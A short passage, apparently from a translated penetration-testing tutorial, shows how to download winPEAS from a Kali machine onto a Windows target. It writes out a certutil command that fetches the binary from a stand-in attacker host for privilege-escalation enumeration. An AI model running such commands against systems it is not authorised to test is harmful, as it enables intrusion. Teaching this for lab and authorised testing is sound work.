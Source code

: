     ![图 5.12 – SimpleHTTPServer](img/B17389_05_014.jpg)

    ](Images/B17389_05_012.jpg)

    图 5.12 – SimpleHTTPServer

1.  为了将`winPEAS.exe`二进制文件下载到目标系统，我们可以使用`certutil`工具。然而，在下载二进制文件之前，我们需要导航到一个有读写权限的目录。在这种情况下，我们将导航到当前用户的桌面，如下图所示：

![图 5.13 – 默认用户目录](img/B17389_05_013.jpg)

图 5.13 – 默认用户目录

现在，我们可以使用`certutil`工具从 Kali 虚拟机下载二进制文件到目标系统。这可以通过在目标系统上运行以下命令来完成：

`certutil -urlcache -f http://<KALI-VM>/winPEASx64.exe winPEAS.exe`

该命令的输出可以在以下截图中看到：

![图 5.14 – certutil 成功传输](img/B17389_05_012.jpg)
